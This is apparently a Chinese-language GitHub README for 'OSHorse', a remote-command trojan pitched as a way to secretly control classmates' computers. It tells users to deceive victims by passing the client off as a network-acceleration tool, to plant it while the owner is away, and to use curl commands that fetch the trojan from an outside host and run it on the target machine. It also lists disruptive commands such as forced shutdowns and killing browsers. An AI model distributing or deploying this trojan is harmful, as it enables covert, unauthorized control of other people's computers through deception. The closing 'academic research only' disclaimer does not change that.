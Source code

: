 # OSHorse，轻松控制同学电脑！

## 有关这个项目
最近一直在找机会研究如何破解极域电子教室，结果百度了几下，看到某篇利用电子教室控制同学的教程。

呃，这似乎有点麻烦，不如自己写一个罢…？

来看看这个远程命令程序！

个人博客介绍：https://blog.helloos.eu.org/index.php/blog/13

## 小技巧：
1. 谎称connecter.exe是个利用host加速的程序
2. 谎称输入控制机器的IP地址是要激活程序

当然你在同学不在的时候植入木马是最佳选择！

## 使用方法
1. 在控制机器上下载（链接附在文末）`HorseCommander.exe`并打开（切记，一定要先打开这个软件！）
2. 在目标机器上下载`connecter.exe`，并在程序同一目录下新建文本文档，内容为控制机器的IP地址 (输入`ipconfig`查看，一般格式为`192.168.\*.\*`) 。双击打开程序，目标机器可能会闪过一个黑框。
3. 回到控制机器，会显示连线者IP地址并显示提示符，您现在可以远程执行命令啦！

TIPS: 这个提示符的界面和cmd不一样，你可以执行`cd .`来查看目标机器上木马的工作目录，输入`help`查看木马内置命令。

坑同学小命令：
```cmd
#关机
shutdown -s -t [时间，单位为秒]
#重启
shutdown -r -t [时间，单位为秒]
#关闭chrome浏览器
taskkill -f -im chrome.exe
#关闭edge浏览器
taskkill -f -im msedge.exe
#弹出计算器
calc
#锁屏
lock
#弹窗
msg [消息]
```

## 使用极域电子教室反控制软件植入木马
本地
```cmd
curl "https://helloosdisk.wdfiles.com/local--files/file:software/HorseCommander.exe" --output ./connecter.exe
ipconfig
```
远程
```cmd
cd %%temp%%/../../../Documents
curl "https://helloosdisk.wdfiles.com/local--files/file:software/connecter.exe" --output ./connecter.exe
echo [你的内网IP]>>connect.txt
./connecter.exe
```
## 下载
[下载HorseCommander.exe(控制)](https://helloosdisk.wdfiles.com/local--files/file:software/HorseCommander.exe)

[下载connecter.exe(目标)](https://helloosdisk.wdfiles.com/local--files/file:software/connecter.exe)

### 免责声明：仅供学术研究使用。对于违反相关法律、造成危害的滥用行为，开发者不负任何责任。
